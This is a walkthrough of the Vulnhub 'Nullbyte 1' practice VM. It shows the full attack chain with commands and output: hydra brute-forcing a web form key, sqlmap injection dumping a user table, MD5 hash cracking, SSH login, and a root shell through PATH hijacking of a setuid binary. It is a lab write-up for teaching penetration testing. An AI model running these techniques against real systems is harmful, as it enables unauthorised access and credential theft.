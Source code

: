 Nullbyte 1 solution
###################

:title: Nullbyte 1 solution
:date: 2015-08-25T00
:modified: 2015-08-25 11
:tags:


I've been AFK for a while because of various reasons, but now I'm back and have
managed to scrape a little time together to get on with some of `Vulnhub's <https://vulnhub.com>`_
new VMs. 

So let's start with `Nullbyte 1 <https://www.vulnhub.com/entry/nullbyte-1,126/>`_

Stage 1
=======

I ran the usual service discovery and found:

.. code-block:: bash

	root@kali:~# nmap -sV 192.168.56.101
	
	Starting Nmap 6.49BETA4 ( https://nmap.org ) at 2015-08-25 11:29 BST
	Nmap scan report for 192.168.56.101
	Host is up (0.00057s latency).
	Not shown: 997 closed ports
	PORT    STATE SERVICE VERSION
	80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
	111/tcp open  rpcbind 2-4 (RPC #100000)
	777/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

HTTP server on 80 and ssh on 777. I'm going to take the straightforward one, and head
to the HTTP server first.

Upon opening the page I only get an image and some text

.. image:: "http://i.imgur.com/SlVGKol.png"


I ran :code:`dirbuster` on the root and got a couple of hits: :code:`uploads` and :code:`phpmyadmin`. The first had disabled directory listing
and the second was a no go, but at least told me there was a SQL server available somewhere.

The source of the page doesn't reveal anything else either, so that last place we might be able to find something
is the image itself. There doesn't appear to be any steganography involved here and nothing in the hexdump of the image
either. Well, let me take a look at the EXIF data then.

.. code-block:: bash

	root@kali:~/Downloads# exiftool main.gif 
	ExifTool Version Number         : 9.74
	File Name                       : main.gif
	Directory                       : .
	File Size                       : 16 kB
	File Modification Date/Time     : 2015:08:25 10:27:37+01:00
	File Access Date/Time           : 2015:08:25 10:28:35+01:00
	File Inode Change Date/Time     : 2015:08:25 10:27:37+01:00
	File Permissions                : rw-r--r--
	File Type                       : GIF
	MIME Type                       : image/gif
	GIF Version                     : 89a
	Image Width                     : 235
	Image Height                    : 302
	Has Color Map                   : No
	Color Resolution Depth          : 8
	Bits Per Pixel                  : 1
	Background Color                : 0
	Comment                         : P-): kzMb5nVYJw
	Image Size                      : 235x302

Hrmm, that comment looks unusual. Let's try that in the URL. Initially I got a 404
but that's because I didn't remove the :code:`P-): `. Hitting :code:`http://192.168.56.101/kzMb5nVYJw`
takes me to a form asking for a key.

Stage 2
=======

Typing in something random just shows :code:`invalid key`. Ok, let me take a look at the source,
see where this thing goes.

.. code-block:: html

	
	<center>
	<form method="post" action="index.php">
	Key:<br>
	<input type="password" name="key">
	</form> 
	</center>
	<!-- this form isn't connected to mysql, password ain't that complex --!>

Ok, so no SQLi here then, and the password isn't complex either. I'm guessing
a simple wordlist might solve this for me. Time to break out :code:`hydra` for this:

.. code-block:: bash

	root@kali:~# hydra 192.168.56.101 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l x -P /usr/share/dict/words -t 10 -w 30
	Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
	
	Hydra (http://www.thc.org/thc-hydra) starting at 2015-08-25 11:41:58
	[DATA] max 10 tasks per 1 server, overall 64 tasks, 99171 login tries (l:1/p:99171), ~154 tries per task
	[DATA] attacking service http-post-form on port 80
	[STATUS] 18687.00 tries/min, 18687 tries in 00:01h, 80484 todo in 00:05h, 10 active
	[80][http-post-form] host: 192.168.56.101   login: x   password: elite
	1 of 1 target successfully completed, 1 valid password found

Bingo. Once I enter that into the field I am able to search for usernames.

Stage 3
=======

Entering all sorts of names reveals nothing. At this point I am guessing this
is the part that is backed by a SQL database. Although usernames and the usual
SQLi synbols don't do much, entering nothing dumps multiple records. Maybe I will
try to :code:`sqlmap` the URL to see if there's any vulnerabilities there

.. code-block:: bash

	root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=
	
	<snip>
	
	[11:13:26] [INFO] GET parameter 'usrtosearch' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT - comment)' injectable 
	[11:13:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
	[11:13:26] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
	[11:13:26] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
	[11:13:26] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
	[11:13:26] [INFO] target URL appears to have 3 columns in query
	[11:13:26] [INFO] GET parameter 'usrtosearch' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable

Result! Using this we can now dump the databasenames, tables, and data in the DB

(output shortened for clarity)
.. code-block:: bash

	root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --current-db
	back-end DBMS: MySQL 5.0.12
	[11:13:44] [INFO] fetching current database
	current database:    'seth'
	
	root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --tables -D seth
	[11:13:55] [INFO] fetching tables for database: 'seth'
	Database: seth
	[1 table]
	+-------+
	| users |
	+-------+
	
	
	root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --dump -D seth -T users
	Database: seth
	Table: users
	[2 entries]
	+----+---------------------------------------------+--------+------------+
	| id | pass                                        | user   | position   |
	+----+---------------------------------------------+--------+------------+
	| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
	| 2  | --not allowed--                             | isis   | employee   |
	+----+---------------------------------------------+--------+------------+

An MD5 hashed password? I best put that through `md5decoder <http://md5decoder.org/>`_ to
be rewarded with the password :code:`omega`

stage 4
=======

Turns out that this is ramses's password on the ssh service that's running on 
port 777 on the VM. So I'll connect to that and have a look at what's going on there.

Not much in his home directory, so I'll checkout what he's been up to

.. code-block:: bash

	ramses@NullByte:~$ cat .bash_history 
	sudo -s
	su eric
	exit
	ls
	clear
	cd /var/www
	cd backup/
	ls
	./procwatch 
	clear
	sudo -s
	cd /
	ls
	exit

Interesting, ramses has something in :code:`/var/www`. Seems like a setuid root
binary called :code:`procwatch`. After running it I would assume that it's just running :code:`ps`
to return a list of processes. If I run :code:`ps` on its own, I get the same output (minus
procwatch of course)

So let's see if it calls :code:`ps` with an absolute path, or not. As a quick test I'll create
a symlink to :code:`ls` in the current directory and name it :code:`ps`. Then I set the :code:`PATH` environment variable
with the current dir at the front.

.. code-block:: bash

	ramses@NullByte:/var/www/backup$ ln -s /bin/ls ps
	ramses@NullByte:/var/www/backup$ export PATH=`pwd`:${PATH}
	ramses@NullByte:/var/www/backup$ ./procwatch 
	ls  procwatch  ps  readme.txt

Excellent, it just calls :code:`ps` without a path. A classic issue you can often
find in programs that call other programs.

So let me leverage this to get myself a root shell and ultimately the flag

.. code-block:: bash

	ramses@NullByte:/var/www/backup$ ln -snf /bin/sh ps
	ramses@NullByte:/var/www/backup$ ./procwatch 
	# whoami 
	root
	# cat /root/proof.txt
	[OUTPUT CUT]

And that concludes the NullByte VM walkthrough. A nice little machine with some fun
challenges. Thanks to ly0n for creating it.

